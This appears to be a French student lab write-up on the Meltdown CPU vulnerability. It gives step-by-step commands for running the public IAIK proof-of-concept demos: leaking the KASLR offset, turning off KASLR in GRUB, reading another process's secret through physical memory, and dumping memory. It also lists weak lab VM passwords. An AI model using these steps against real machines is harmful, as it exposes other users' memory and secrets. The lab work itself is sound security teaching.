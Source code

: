 ```yaml
---
title: TP Meltdown
Author: Nathan Verdier, Chloe Morgond, Lucie Boudoule, Rémi Regnault, Thomas
geometry: margin=2cm
---
```


## Mot clé
taskset permet de crée un affiliété entre un processuce et un coeur.  
0x1 = coeur 1 du processeur (peut être remplacer par un autre) essayer d'en utiliser un qui sert par trop au moment ou vous le faite pour évité d'avoir des données parasite.  
Mémoire physique = 0xffff880000000000. Utile quand ont a pas désactivé kaslr.  
Utilisateur `meltdown` mot de passe : `testMeltdown`  
Mot de passe de root : `testMeltdown`


## Virtual Machine

## Prérequie
cloner ce dépot : https://github.com/IAIK/meltdown.git  
Et allez dans le dossier **meltdown**.

## Exo1
À partir du noyau Linux 4.12, KASLR (Kernel Address Space Layout Randomizaton) est actif par défaut. Cela signifie que l'emplacement du noyau (ainsi que la carte physique directe qui mappe l'intégralité de la mémoire physique) change à chaque redémarrage.

Cette démo utilise Meltdown pour divulguer la randomisation (secrète) de la carte physique directe. Cette démo nécessite les privilèges root pour accélérer le processus. Le document décrit une variante qui ne nécessite pas de privilèges root.

Exécuter cette commande:
```shell
make
taskset 0x1 ./test
```
si la commande marche vous verrez:
```
Expect: Welcome to the wonderful world of microarchitectural attacks
   Got: Welcome to the wonderful world of microarchitectural attacks
```

## Méthode 1 : Permet de connaitre ou est la mémoire virtuelle
**Cette méthode peut être très longue, puvant dépasser les 10/20mins d'attentes vois plus si ont a pas de chance**
```shell
sudo taskset 0x1 ./kaslr
```

Résultat de ce style:
`[+] Direct physical map offset: 0xffff880000000000`



## Méthode 2 : Pour exposer la mémoire et désactivé KASLR en ligne de commande linux il suffit de faire :
**Recommande ceette méthode**
```shell
sudo nano /etc/default/grub
```
**d'ajouter ceci:**
**Avant:**
GRUB_CMDLINE_LINUX="quiet splash"

**Après:**
GRUB_CMDLINE_LINUX="quiet splash nokaslr"

```shell
sudo update-grub
sudo reboot
```


## Exo2

Cette démo teste la fiabilité de la lecture de la mémoire physique. Pour cette démo, soit vous avez besoin du décalage de carte physique direct exo1, soit vous devez désactiver KASLR en spécifiant nokaslr dans la ligne de commande de votre noyau.

Construire et exécuter
Construisez et démarrez la fiabilité. Si KASLR est activé, le premier paramètre est le décalage de la carte physique directe. Sinon, le programme ne nécessite aucun paramètre.

**Avec mémoire virtuelle**
```shell
sudo taskset 0x1 ./reliability 0xffff880000000000
```

**Avec kaslr désactivé**
```shell
sudo taskset 0x1 ./reliability
```

Fonctionne si affiche quelque chose de similaire:
```shell
[+] Direct physical map offset: 0xffff880000000000
```


## Exo3
Cette démo lit la mémoire d'un processus différent en lisant directement la mémoire physique. Pour cette démo, soit vous avez besoin du décalage de carte physique direct (par exemple de la démo n°2), soit vous devez désactiver KASLR en spécifiant nokaslr dans la ligne de commande de votre noyau.

En principe, ce programme peut lire des adresses physiques arbitraires. Cependant, comme la mémoire physique contient beaucoup de données non lisibles par l'homme, nous fournissons un outil de test (secret), qui met en mémoire une chaîne lisible par l'homme et fournit directement l'adresse physique de cette chaîne.

```shell
sudo ./secret
```

```
[+] Secret: If you can read this, this is really bad
[+] Physical address of secret: 0x390fff400
[+] Exit with Ctrl+C if you are done reading the secret
```

Pendant que le programme secret est en cours d'exécution, démarrez physical_reader. Le premier paramètre est l'adresse physique imprimée par secret. Si vous n'avez pas désactivé KASLR, le deuxième paramètre est le décalage de la carte physique directe.

**Avec mémoire virtuelle**
```shell
taskset 0x1 ./physical_reader 0x390fff400 0xffff880000000000
```

**Avec kaslr désactivé**
```shell
taskset 0x1 ./physical_reader 0x390fff400
```

**Résultat:**
```shell
[+] Physical address       : 0x390fff400
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff880390fff400

If you can read this, this is really bad
```

## Exo 4

Cette démo vide le contenu de la mémoire. Comme les démos n°3 et n°4, il utilise la carte physique directe pour vider le contenu de la mémoire physique dans un format de type hexdump.

Encore une fois, comme la mémoire physique contient beaucoup de contenu non lisible par l'homme, nous fournissons un outil de test pour remplir de grandes quantités de mémoire physique avec des chaînes lisibles par l'homme.

Construire et exécuter
Pour la démo, exécutez d'abord memory_filler pour remplir la mémoire avec des chaînes lisibles par l'homme. Le premier argument est la quantité de mémoire (en gigaoctets) à remplir.

```shell
./memory_filler 9
```

Ensuite, exécutez l'outil memdump pour vider le contenu de la mémoire. Si vous avez déjà exécuté memory_filler, vous devriez voir des fragments de chaîne. Si vous utilisez Firefox ou Chrome avec plusieurs onglets en cours d'exécution, vous pouvez également voir des parties des sites Web ouvertes ou récemment fermées.

Le premier paramètre est l'adresse physique à laquelle le dump doit commencer (laisser vide pour démarrer au premier gigaoctet). Le deuxième paramètre est la quantité d'octets que vous souhaitez lire, pour tout lire, donnez -1. Si vous n'avez pas désactivé KASLR, le troisième paramètre est le décalage de la carte physique directe.



**Avec mémoire virtuelle**
```shell
taskset 0x1 ./memdump 0x240000000 -1 0xffff880000000000 # start at 9 GB
```

**Avec kaslr désactivé**
```shell
taskset 0x1 ./memdump 0x240000000 -1 # start at 9 GB
```

**Résultat:**
```shell
 240001c9f: | 00 6d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .m.............. |
 24000262f: | 00 7d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .}.............. |
 24000271f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 6e 20 75 | ............en u |
 24000272f: | 73 65 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 | ser space and ke |
 24000273f: | 72 6e 65 6c 57 65 6c 63 6f 6d 65 20 74 6f 20 74 | rnelWelcome to t |
 24000298f: | 00 61 72 79 20 62 65 74 77 65 65 6e 20 75 73 65 | .ary between use |
 24000299f: | 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 72 6e | r space and kern |
 2400029af: | 65 6c 42 75 72 6e 20 61 66 74 65 72 20 72 65 61 | elBurn after rea |
 2400029bf: | 64 69 6e 67 20 74 68 69 73 20 73 74 72 69 6e 67 | ding this string |
 240002dcf: | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c8 | ................ |
 2400038af: | 6a 75 73 74 20 73 70 69 65 64 20 6f 6e 20 61 00 | just spied on a. |
 240003c8f: | 00 00 1e 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ |
 24000412f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 74 73 2e | ............ets. |
 24000413f: | 2e 2e 57 65 6c 63 6f 6d 65 20 74 6f 20 74 68 65 | ..Welcome to the |
 2400042ff: | 00 00 00 00 00 00 00 00 00 6e 67 72 61 74 75 6c | .........ngratul |
 24000430f: | 61 74 69 6f 6e 73 2c 20 79 6f 75 20 6a 75 73 74 | ations, you just |
 24000431f: | 20 73 70 69 65 64 20 6f 6e 20 61 6e 20 61 70 70 |  spied on an app |
```


Toute la doc dispo ici [Doc Meltdown](https://github.com/IAIK/meltdown)
